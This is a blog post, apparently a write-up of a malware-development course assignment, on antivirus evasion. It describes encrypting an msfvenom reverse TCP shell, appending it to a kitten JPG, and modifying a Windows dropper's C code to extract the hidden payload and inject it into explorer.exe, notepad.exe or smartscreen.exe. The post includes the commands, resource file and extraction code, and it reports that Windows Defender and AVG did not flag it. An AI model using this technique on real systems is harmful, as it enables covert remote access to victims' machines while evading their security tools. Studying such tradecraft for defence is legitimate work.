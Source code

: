 ```yaml
---
layout: single
title: AV Evasion - The payload is behind kitties
date: 2020-09-22
classes: wide
header:
  teaser: /assets/images/AV_evasion/kittens.jpg
tags:
  - Pentester
  - Windows
  - Reverse shell
  - AV Evasion
  - Kitties
--- 
```

![](/assets/images/AV_evasion/kittens.jpg)<br>

## Introduction
Hello and welcome back to the 2nd assignment of the well done course on Malware Development by [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials), in the previous [blog post](https://blackcloud.me/av-evasion-1/) we saw PE injection using a payload saved as a favicon.ico file, with all the functions and payload encrypted with AES. The next assignment is to hide the payload inside an image and implement the dropper with the capacity of extraction of the payload and injecting it in the PE process target.

## The Assignment
Let's start taking our last dropper and check what we have and what we must change.<br>
The most of the code is working pretty well as we saw, but the payload extraction has to be changed because now reenz0h asked to hide the payload inside an image and extract it before injecting in the victim process, so take a look closer to the payload memory loading and analyze what we have to change.

## the Payload
First of all we need to choose how hide our payload behind an image and most important how we want to extract it before using it. <br>
The hint in the assignemt page says we can use file concatenation. So we choosed this way to work (a big thank you to reenz0h for the help):
- Take a kitties image from internet (who doesn't love kitties? :))
- Create the payload with msfvenom
-- in this case I choosed a simple reverse tcp windows x64 shell
- Encrypt the payload with AES
- Append the encrypted payload at the end of the image 
- Append the original lenght of image as last bytes in the image

Once we downloaded the kitties image from internet we can check last 11 rows of the hexadecimal values of the image with ```xxd```
```bash
xxd -g1 U.jpg |  tail -11 
00330990: 81 f1 c0 8a b8 e5 e3 18 00 0e 13 62 25 25 3c 4d  ...........b%%<M
003309a0: f6 02 dc e7 98 fc 6f f6 62 59 5f c2 31 93 3c e2  ......o.bY_.1.<.
003309b0: 85 80 12 07 53 ba 85 c9 20 fe 97 e3 7c 0d c0 03  ....S... ...|...
003309c0: 96 d0 65 4f 89 a7 aa 78 21 2a 0a 58 29 2a b1 1a  ..eO...x!*.X)*..
003309d0: 6f 73 6c 08 53 2d e1 95 45 55 3c d3 4a 9f 09 0b  osl.S-..EU<.J...
003309e0: 1a 46 a3 cc 08 bf 37 bb 17 14 98 c8 38 9e eb 48  .F....7.....8..H
003309f0: 6a 94 92 4e a5 ac 8e 53 74 82 6d f6 fc 7c b0 51  j..N...St.m..|.Q
00330a00: 44 77 c8 1a 70 d2 57 c8 90 db 7a b4 bc 06 d6 e6  Dw..p.W...z.....
00330a10: 4a f5 95 03 ea ed 6e 1f 8e 08 a9 8f 2f 24 b6 f3  J.....n...../$..
00330a20: 7a 65 63 ae a5 cb ea 59 17 d1 60 b4 f3 a9 44 6e  zec....Y..`...Dn
00330a30: 3a e2 56 ce 6c e3 76 41 16 d0 cf ff d9           :.V.l.vA.....
```
Now after the encryption of the payload we can use a copy of the original image (is usefull to work on a copy just in case something doesn't work as exepected, you don't have to download the image everytime) and append the encrypted paylaod to the image with the ```cat``` command

```bash
cat payload_enc >> kittens.jpg
```
Now check the tail of the image compared with the encrypted payload to see if everithing is loaded correctly
![](/assets/images/AV_evasion/hex_compare.png)
As we can see after the hex values ``ff d9`` (that's in the end of every jpg file) we have our encrypted payload. <br>
After that we have to append the value of the size of the original image, in this case 3344957 bytes 

```bash
echo "3344957" >> kittens.jpg
```
Check again the last hex values of the manipulated jpg
![](/assets/images/AV_evasion/hex_compare2.png)<br>
Great! our devil jpg is ready. Now we have to modify our dropper to extract the payload from the image in our victim machine 

## the Dropper
Let's change the name of the payload as a recource by the file ```resources.rc``` to ```kittens.jpg```
```
#include "resources.h"

IMAGE RCDATA kittens.jpg
```
The dropper has a section where the payload is loaded as a resource with the ```FindResourceA``` and ```LoadResource``` functions, its lenght is calculated with ```SizeofResource``` then it is loaded in memory with the ```VirtualAlloc``` function

```bash
...
// Extract payload from resources section
    res = pFindResourceA(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
    resHandle = pLoadResource(NULL, res);
    payload = (char *) pLockResource(resHandle);
    payload_len = pSizeofResource(NULL, res);

// Allocate some memory buffer for payload
    exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
...
```
In the code trunk below the Windows functions are called as pointers because of AES encryption as saw in the previous post, this techniques works very well as an AV evasion technique so we can reuse it. Now we have to change this section like this

```bash
// Extract payload from the image
    image = (char*)pLockResource(resHandle); // lock the resource and point to the first char of the jpg
    image_len = SizeofResource(NULL, res); // get the size of the jpg + payload + last 7 bytes 
    
    end = image + image_len - 7; // jump to the end of the jpg and read the last 7 bytes that are the original size of the jpg without payload
    size = atoi(end); // cast from char to int, now size is the original size of the jpg
    offset = image + size; // offset points to the first char of the p0
    payload_len = image_len - size - 7; // calculate the payload size
    memcpy(payload, offset, payload_len); // copy in another memory area the effective payload 
    
// Allocate some memory buffer for payload
    exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```
Long story short, instead of charging the payload from a separated file we need to:
- get the size of the devil image, 
- jump at the end of the devil image and read the last 7 bytes that are the size of the orginal image
- now we can calculate the offset from the original image and the devil image, this difference is the payload
- now we need to calculate the payload lenght
- use memcpy to load the payload in memory and use it as a resource

## Tests
As in the previos post we tested the dropper on different process: ```explorer.exe```, ```notepad.exe``` and ```smartscreen.exe``` but this case all the 3 processes inject don't trigger Windows Defender nor AVG Free, however the ```explorer.exe``` injecton cause a reload of the process in the case you exit the shell on my attacking machine and this is very loud. On the other hand nothing appens when we try to inject the ```notepad.exe```, AVG scan the dropper and let it execute the reverse shell payload maintaining the shell active also when we close Notepad and the ```notepad.exe``` process is destroyed, same story if we try to inject the ```smartscreen.exe``` process, another reverse shell session is opened without any alarm from AVG.
So we are following the TOON rule (Two is One and One is None) also in this case.  

![](/assets/images/AV_evasion/AVG_image_bypass.gif)<br>

and [here](https://github.com/bolonobolo/av_evasion/tree/master/PE_Injection/Behind%20image%20Dropper/implant.cpp) you can find the dropper code. <br>
In the next post we'll try to complete another point of the assignment ```hide the encrypted payload behind an image```.

## References
Malware Dev Essentials Course
- [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [reenz0h](https://twitter.com/Sektor7Net) <br>
